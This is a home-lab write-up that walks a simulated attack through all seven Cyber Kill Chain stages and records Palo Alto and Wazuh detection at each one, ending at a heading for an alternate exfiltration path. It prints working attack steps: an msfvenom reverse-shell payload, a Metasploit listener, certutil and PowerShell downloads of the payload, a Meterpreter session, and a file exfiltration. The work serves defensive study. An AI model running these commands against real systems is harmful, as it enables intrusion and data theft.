# Cyber Kill Chain Simulation — Stages 1–7 (Full Chain)

> Part of the **Cyber Kill Chain Simulation Series** — a home-lab project walking through each of Lockheed Martin's seven Cyber Kill Chain stages end-to-end, with attacker-side execution, network-perimeter logging, and SIEM detection for every stage.

| | |
|---|---|
| **Kill Chain Stages** | 1 of 7 through 7 of 7 (full chain) |
| **MITRE ATT&CK Mapping** | T1595.001 (Active Scanning), T1587.001 (Develop Capabilities: Malware), T1105 (Ingress Tool Transfer), T1059 (Command and Scripting Interpreter), T1071 (Application Layer Protocol / C2), T1041 (Exfiltration Over C2 Channel) |
| **Objective** | Simulate an external attacker discovering an exposed service, weaponizing and delivering a payload, executing it, establishing C2, and exfiltrating a file — while validating detection coverage (and documenting gaps) at every step |
| **Status** | ✅ Complete |

---

## 1. Objective

Reconnaissance is the attacker's first move: before anything can be exploited, it has to be *found*. This project simulates an outside attacker discovering a single exposed service on a segmented network, then carries the same attack all the way through weaponization, delivery, exploitation, installation, command & control, and exfiltration — proving out the detection side at each hop, from raw firewall traffic log through the SIEM decoder to a fired correlation rule, and beyond that into host-level and session-based detection gaps once the attacker is inside.

Two things are being tested throughout:

1. **Offense** — can a realistic attacker workflow (recon → weaponize → deliver → exploit → install → C2 → exfil) reach its goal the way a real threat actor would?
2. **Defense** — does the network and host detection stack (firewall policy → syslog forwarding → SIEM decoder → correlation rule → host telemetry) turn that activity into actionable, correctly-categorized alerts — and where does it *not*?

---

## 2. Lab Environment

The lab runs as an **EVE-NG** topology hosted inside **VMware Workstation** on a personal laptop, with a Palo Alto next-gen firewall (PA-VM) as the policy enforcement point between zones, and a Wazuh SIEM ingesting both firewall syslog and host agent telemetry.

> **Note on the Windows target's local defenses:** Windows Defender and the Windows Firewall are **disabled** on the target VM for this series. This is not intended to demonstrate evasion of endpoint protection — it's a deliberate simplification so the write-up can isolate and showcase each Cyber Kill Chain stage and the *network/SIEM* detection pipeline (Palo Alto + Wazuh + Sysmon) cleanly, without host AV/firewall interference muddying which control caught what. A future iteration with Defender/host firewall active is a natural next step and would be expected to change the Stage 3–7 detection picture significantly.



### 2.1 Topology & Addressing

| Role | Host | Zone | Interface / IP | Notes |
|---|---|---|---|---|
| Attacker | Kali Linux | Untrusted (Internet-simulated) | `192.168.120.13` (`pnet1-internet`, `192.168.120.0/24`, GW `192.168.120.2`) | Simulates an external, internet-based threat actor |
| Perimeter Firewall | Palo Alto (PA-VM) | Untrusted ↔ Trusted ↔ Management | `eth1/1` Untrusted (`192.168.120.5`), `eth1/3` Trusted (`192.168.101.45/24`), `eth1/4` Trusted (`192.168.102.44/24`), `mgmt` Management (`192.168.100.4`), `eth1/2` Management (`192.168.1.35/24`) | Enforces inter-zone policy; forwards Traffic logs via syslog to Wazuh |
| Target | Windows Host | Trusted | `192.168.101.10/24` | Externally reachable **only** via static NAT (`192.168.120.5:3389` → `192.168.101.10:3389`); Sysmon + Wazuh agent installed |
| Secondary Target | Linux (Ubuntu) | Trusted | `192.168.102.10/24` | Reserved for future-stage scenarios |
| SIEM | Wazuh Manager | Management | `192.168.1.99/24` | Ingests Palo Alto syslog (custom decoder) + native host agent events |

### 2.2 Reachability / Scope Decision

The Trusted zone (`192.168.101.0/24`) is not directly reachable from Untrusted — by design. The only path in is a **static NAT** rule that maps a single Untrusted-side IP/port (`192.168.120.5:3389`) to the internal Windows host (`192.168.101.10:3389`).

Initial host-discovery sweeps were run against the full `192.168.101.0/24` range to confirm this. As expected, everything except the NAT'd address was unreachable from Untrusted. Once that was confirmed against the NAT policy, **all further enumeration in Stage 1 was deliberately scoped to `192.168.120.5`** — this mirrors how a real external attacker's view of the network is limited to whatever is actually exposed, not the full internal address space.

### 2.3 Governing firewall policy (Security Rulebase)



| # | Rule | Source Zone | Dest Zone | Dest Address | Relevance |
|---|---|---|---|---|---|
| 1 | `Untrusted-Trusted` | Untrusted Zone | Trusted Zone | `192.168.120.5` (NAT'd) | The exposure path exploited across all stages — Kali → RDP |
| 2 | `Trusted-Mgmt` | Trusted Zone | Management Zone | `192.168.1.99` | Target ↔ Wazuh agent traffic |
| 3 | `Untrust-Mgmt` | Untrusted Zone | Management Zone | any | Not used in this chain |
| 4 | `Trusted-Untrusted` | Trusted Zone | Untrusted Zone | any | **The outbound path the Stage 2–6 reverse shell relies on** |
| 5/6 | `intrazone-default` / `interzone-default` | any | any | any | Default deny/log catch-alls |

Rule 4 (`Trusted-Untrusted`, Trusted → Untrusted, any/any) is the policy detail that matters most once the chain moves past Stage 1: it's what lets a reverse-shell callback from the Windows target reach back out to Kali without needing any inbound hole at all.

---

## 3. Stage 1 — Reconnaissance

**MITRE:** [T1595.001 – Active Scanning: Scanning IP Blocks](https://attack.mitre.org/techniques/T1595/001/)

**Goal:** Kali scans the exposed service → Palo Alto logs the traffic → Wazuh ingests the syslog and fires a reconnaissance/port-scan correlation alert.

### Step 1 — Confirm the attack path is actually reachable

Before any scan traffic is generated, the firewall policy needs to be in a known state, because the two possible outcomes produce **different log types and different Wazuh signatures**:

- **Allow** — the scan gets through; Palo Alto logs it as `TRAFFIC` / `allow`. This is what was used here, to simulate a scan that successfully reaches the target.
- **Deny/log** — the scan is blocked at the perimeter; Palo Alto logs it as `TRAFFIC` / `deny`. (Also tested separately, as it exercises a different detection path.)

For the rule in use (`Untrusted-Trusted`), logging was explicitly verified under **Security Policy → Actions → Log at Session End** (and Log at Session Start, for per-packet visibility on scan traffic). Without this, the firewall can enforce policy correctly while producing *no log trail at all* — which would make the entire downstream detection chain moot.

### Step 2 — Run reconnaissance from Kali

From the attacker host (`192.168.120.13`), a standard external-recon progression was run against the one exposed address, generating a realistic mix of traffic patterns for the firewall/SIEM to classify.

**a) Full TCP port sweep**

```bash
nmap -p- -T4 192.168.120.5
```



| Flag | Purpose |
|---|---|
| `-p-` | Scan **all 65,535 TCP ports** (equivalent to `-p 1-65535`). Nmap's default scan only checks ~1,000 common ports — this catches anything listening outside that list. |
| `-T4` | Timing template `0`–`5` (paranoid → insane). `T4` ("aggressive") trades stealth for speed — appropriate for a lab/local network where IDS evasion isn't the goal; would drop to `T2`/`T3` on flaky links or when stealth matters. |

Result: single open port — **3389/tcp (`ms-wbt-server`)**, i.e. RDP.

**b) Service / version enumeration on the discovered port**

```bash
nmap -sV -sC -p3389 192.168.120.5
```



| Flag | Purpose |
|---|---|
| `-sV` | **Version detection** — probes the open port to identify the actual service/version banner (Microsoft Terminal Services, build `10.0.15063`), not just "port is open." |
| `-sC` | Runs Nmap's **default NSE script set** (`--script=default`) — safe, non-intrusive scripts that pull banners, certs, and common misconfiguration checks. Here it surfaced the target's NetBIOS/DNS name (`DESKTOP-E1GLBEF`) via `rdp-ntlm-info`. |
| `-p3389` | Restrict the scan to the one port already confirmed open — no need to re-sweep everything. |

**c) Protocol-specific enumeration**

```bash
nmap --script rdp-enum-encryption -p3389 192.168.120.5
```



| Flag | Purpose |
|---|---|
| `--script rdp-enum-encryption` | Runs one **targeted** NSE script that speaks enough of the RDP protocol to ask the server which security layers / encryption levels it supports. |
| `-p3389` | Same target port. |

Result: the target accepted **CredSSP (NLA)**, **CredSSP with Early User Auth**, **RDSTLS**, and **SSL**, all reporting `SUCCESS` — i.e. modern, NLA-capable RDP security is in place (not legacy "Standard RDP Security" only).

This three-step progression (discover → fingerprint → protocol-specific probe) mirrors real-world attacker tradecraft, where each step narrows scope and increases confidence before any exploitation is attempted — and it's exactly the kind of layered, repeated-connection pattern that a well-tuned SIEM rule should catch.

### Step 3 — Detection pipeline: Palo Alto → Wazuh

Palo Alto `TRAFFIC` logs are shipped to the Wazuh manager via syslog and parsed using a custom decoder so that fields like `source_address`, `destination_port`, `action`, `session_end_reason`, and Palo Alto App-ID tags are broken out into structured fields Wazuh can correlate on.



The raw traffic monitor above (filtered on `addr.src in 192.168.120.13`) shows the exact signature the correlation rule keys on: repeated short-lived sessions to `192.168.120.5:3389`, alternating between `incomplete` (bare SYN/RST probes) and fully-classified `ms-rdp` sessions (the `-sV`/`-sC`/`rdp-enum-encryption` traffic completing enough handshake to be positively identified).

**Correlation rules (local Wazuh ruleset):**



| Rule ID | Level | Frequency/Timeframe | Trigger | MITRE |
|---|---|---|---|---|
| `100101` | 12 | 5 hits / 120s | Repeated `TRAFFIC` sessions with `destination_address = 192.168.120.5` (the exposed host), varying `source_address` | `T1595.001` |
| `100102` | 6 | 20 hits / 60s | Broad recon sweep — `TRAFFIC` sessions where destination is **not** `192.168.120.5` (`negate="yes"`), i.e. probes against the wider non-exposed range | `T1595.002` |

Rule `100101` fired against this scan.

### Step 4 — Raw alert verification (`alerts.json`)

To confirm end-to-end delivery — not just that the rule *could* fire, but that it actually did and was written to the SIEM's alert store — the raw `alerts.json` record was pulled directly from the manager:



```
grep 192.168.120.13 /var/ossec/logs/alerts/alerts.json | tail -10
```

And the same alert viewed structured, in Wazuh's Discover UI:



**Fired rule (as recorded):**

| Field | Value |
|---|---|
| Rule ID | `100101` |
| Description | *"Reconnaissance against exposed RDP service from 192.168.120.13 (Cyber Kill Chain: Reconnaissance)"* |
| Level | 12 |
| Frequency | 5 |
| Times fired | 12 |
| Rule groups | `local, recon, attack, recon, attack` |
| MITRE ATT&CK | `T1595.001` — Scanning IP Blocks, tactic: Reconnaissance |
| Email alert | Enabled (`mail: true`) |
| Manager | `wazuh-server` |

**Key fields from the underlying Palo Alto traffic record, as parsed by Wazuh:**

| Field | Value |
|---|---|
| Source IP | `192.168.120.13` (Untrusted Zone) |
| Destination IP | `192.168.120.5` → NAT'd to `192.168.101.10` (Trusted Zone) |
| Destination Port | `3389/tcp` (RDP) |
| Rule Action | **allow** |
| Session behavior (probe sessions) | Mostly `incomplete` — 1 packet sent, 0 received, `tcp-rst-from-client` |
| Session behavior (fingerprint session) | Fully classified `ms-rdp`; 3,551 bytes across 16 packets |

### Step 5 — Analysis

The traffic pattern is a textbook **port-scan / connection-probe** signature: several short-lived sessions hitting the same destination on 3389 seconds apart, most terminating as `incomplete` with a single packet and a client-initiated reset — connect-then-abandon behavior consistent with the `nmap -p-` sweep, rather than a genuine RDP login attempt.

One session stood out from the rest: fully classified as `ms-rdp` (not `incomplete`), exchanging 3,551 bytes across 16 packets — the `-sV -sC` / `rdp-enum-encryption` traffic completing enough of the RDP handshake to be positively identified and exchange protocol data. A meaningfully "louder" and more revealing event than a bare SYN probe, and a useful reminder that not all recon traffic looks the same to a firewall.

**Why this matters operationally:**

- The matching policy action was **allow** — the firewall is *permitting* untrusted-zone traffic to reach RDP on the NAT'd address. In a real environment this is exactly the kind of exposure that should be reviewed, not assumed to be intentional.
- The presence of one fully-classified `ms-rdp` session inside a batch of otherwise-incomplete probes is a stronger indicator than a plain scan alert — it shows the source got far enough to be a credible near-term threat, not just background internet noise.
- The full pipeline — firewall log → decoder → correlation rule → alert store → (configured) email notification — worked as designed, with no gaps between what the attacker actually did and what the SIEM actually recorded.

---

## 4. Stage 2 — Weaponization *(fully attacker-side blind spot)*

**MITRE:** T1587.001 – Develop Capabilities: Malware

**What happens:** `msfvenom` (or a module inside Metasploit) generates a reverse-shell payload on the Kali attacker machine, entirely within the Untrusted zone.

**Wazuh visibility: Blind.** No agent is installed on Kali, so Wazuh has zero visibility into local terminal commands, process activity, or file creation on the attacker's own disk. This is intentional and realistic — defenders never have telemetry on infrastructure they don't own.

### Core concepts

**Payload** — the malicious code executed on the victim after a vulnerability is exploited. If the exploit is the missile, the payload is the warhead.

**Bind shell vs. reverse shell**
- **Bind shell:** the malware opens a listening port on the *victim* (e.g. 4444) and waits for the attacker to connect in. Fails here because the Palo Alto `Untrusted-Trusted` policy blocks unsolicited inbound connections from Untrusted to Trusted beyond the one NAT'd RDP port.
- **Reverse shell:** the malware initiates the connection *outward*, from victim to attacker. Works because the `Trusted-Untrusted` (any/any) policy generally trusts outbound traffic leaving the network — the Windows target calls out to Kali voluntarily, bypassing perimeter inbound controls entirely.

### Tooling

| Tool | Role |
|---|---|
| `msfvenom` | Generates and encodes standalone payloads (.exe/.apk/.elf) with an embedded reverse shell, combining payload generation + encoding in one utility |
| `msfconsole` | Metasploit's central console — exploit/auxiliary repository and payload handler; used here to run a listener that waits for the callback |

### Command used

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.120.13 LPORT=4444 -f exe -o updater.exe
```

| Flag / value | Purpose |
|---|---|
| `-p windows/x64/meterpreter/reverse_tcp` | Payload type: 64-bit Windows, Meterpreter (in-memory, no visible console window), outbound TCP callback |
| `LHOST=192.168.120.13` | Kali's IP — where the victim calls home to |
| `LPORT=4444` | Callback port (Metasploit's traditional default; any open port works) |
| `-f exe` | Compiles raw shellcode into a Windows PE executable |
| `-o updater.exe` | Output filename |

Listener setup (`msfconsole`):

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.120.13
set LPORT 4444
exploit
```

`use exploit/multi/handler` sets up a generic listener rather than launching an exploit directly. The `PAYLOAD` set here **must exactly match** the one baked into `updater.exe`, or the handshake fails and the session crashes immediately.

---

## 5. Stages 3 & 4 — Delivery & Exploitation

**MITRE:** T1105 – Ingress Tool Transfer

The RDP exposure found and fingerprinted in **Stage 1** (`192.168.120.5:3389`) is the entry point: Kali's `xfreerdp` is used to remote into the target over the already-open path, and the payload is delivered via simple copy-paste over the RDP session. (Other delivery mechanisms — e.g. email/web-based delivery — remain worth exploring in a later iteration.)

**Detection note:** to catch payload delivery as it crosses from Untrusted into the internal network, the Palo Alto Security Policy rule needs Security Profiles attached — specifically:
- **Antivirus** — to catch malicious binaries/payloads in transit
- **Vulnerability Protection** — to catch network-level exploit traffic

*Limitation: the lab's PA-VM is unlicensed, which constrains full use of these profiles — a documented gap rather than validated coverage.*

### Alternative delivery methods tested (from an established session on the target)

**Option A — PowerShell:**
```powershell
Invoke-WebRequest -Uri "http://192.168.120" -OutFile "$env:TEMP\updater.exe"
```

**Option B — Certutil:**
```cmd
certutil.exe -urlcache -f http://192.168.120 %TEMP%\updater.exe
```

Both pull the payload from Kali down to the target's temp directory using native Windows binaries (LOLBins) rather than a dedicated attacker tool — a common technique for blending into normal admin activity.

---

## 6. Stage 5 — Installation & Execution

**MITRE:** T1059 – Command and Scripting Interpreter

```cmd
start %TEMP%\updater.exe
```

Launches the payload silently in the background from the temp folder.

**Execution mechanics:**
- **Action mechanism:** leverages expected system behaviors/features to launch code — invoking a `.exe` via native shell — rather than a novel exploit primitive.
- **Triggers:** requires access/permission to spawn processes in the current user/system context. Observed follow-on shell activity included commands like `whoami` and `Test-NetConnection` for situational awareness post-execution.

---

## 7. Stage 6 — Command & Control

**MITRE:** T1071 – Application Layer Protocol

Back on Kali, the same listener configuration from Stage 2 is re-armed and waits for the callback — only the payload's name changes on the victim side; the handler config stays constant:

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.120.13
set LPORT 4444
exploit

[*] Started reverse TCP handler on 192.168.120.13:4444
[*] Sending stage (203846 bytes) to 192.168.120.5
[*] Meterpreter session 1 opened (192.168.120.13:4444 -> 192.168.120.5:33790) at 2026-09-17 21:23:02 +0800
```

A Meterpreter session is established once the target executes the payload and calls back — confirmed live above.

**Observed event sequence (Wazuh):** file **added** for Delivery and file **modified** for Execution, correlating to `rule.id 554` and `rule.id 550` respectively — a two-point telemetry trail across the delivery→execution boundary even without deeper payload-behavior detection.

---

## 8. Stage 7 — Actions on Objectives (Exfiltration)

**MITRE:** T1041 – Exfiltration Over C2 Channel

**What happens:** with the Meterpreter session from Stage 6 live, the existing C2 channel itself is used to pull a file off the target back to Kali — no new payload, no new listener, just a built-in session command.

### Session evidence



```
meterpreter > dir
Listing: C:\Users\rdpuser\Desktop
...
100666/rw-rw-rw-   118  fil  2026-09-16 03:24:15 +0800  New Text Document (2).txt
100666/rw-rw-rw-    49  fil  2026-09-15 03:44:19 +0800  New Text Document.txt
...

meterpreter > copy C:\Users\rdpuser\Desktop\New Text Document.txt /home/kali/
[-] Unknown command: copy. Run the help command for more details.

meterpreter > download "C:\Users\rdpuser\Desktop\New Text Document.txt" /home/kali/
[*] Downloading: C:\Users\rdpuser\Desktop\New Text Document.txt -> /home/kali/New Text Document.txt
[*] Downloaded 49.00 B of 49.00 B (100.0%): C:\Users\rdpuser\Desktop\New Text Document.txt -> /home/kali/New Text Document.txt
[*] Completed  : C:\Users\rdpuser\Desktop\New Text Document.txt -> /home/kali/New Text Document.txt
meterpreter >
```

| Step | Purpose |
|---|---|
| `dir` | Lists the target Desktop to identify a candidate file — the directory listing also shows earlier-stage artifacts (`malware.exe`, `malware2.exe`, `updater.exe`) sitting alongside ordinary user files |
| `copy ...` | Attempted first — not a valid Meterpreter command (it's a Windows shell built-in, not part of the Meterpreter API); fails cleanly with "Unknown command" |
| `download "<remote path>" <local path>` | Correct Meterpreter command — pulls the file over the existing reverse-TCP session (port 4444) back to Kali, reporting size and completion |

The failed `copy` attempt is worth keeping in the write-up as-is — a realistic operator moment, and a reminder that the failure itself produced zero telemetry on the target since it never reached the Windows shell.

The Kali-side file browser confirms landing: the downloaded file sits in the Kali home directory alongside other lab artifacts (`malware.exe`, `malware2.exe`, `updater.exe`, `hydra.restore`, `payload.ps1`).

### Detection considerations (Meterpreter `download`)

- **Network layer:** the transfer rides the *same* session (`192.168.120.13:4444 ↔ 192.168.120.5:33790`) opened in Stage 6 — no new flow, no new destination. Palo Alto's `TRAFFIC` log shows this only as continued activity on an already-permitted, already-logged session. Without payload-aware inspection into the Meterpreter protocol, this is indistinguishable from ordinary C2 heartbeat traffic at the firewall.
- **Host layer:** this is a *read*, not a file creation — Sysmon Event ID 11 (FileCreate) won't fire on the source file, and File Integrity Monitoring watching for modification/creation on that directory would also miss a pure read/download. Process-access auditing or EDR file-access telemetry on sensitive folders is the more relevant host-side signal, and is flagged here as a coverage gap.
- **Volume/anomaly detection:** even a small, one-off download like this (49 bytes) would be trivial to miss on byte-count alone — the realistic control is baselining *session duration and pattern* on long-lived reverse-shell connections, not per-transfer size thresholds.

### 8b. Alternate exfil path — outbound HTTP POST to a Kali-side listener

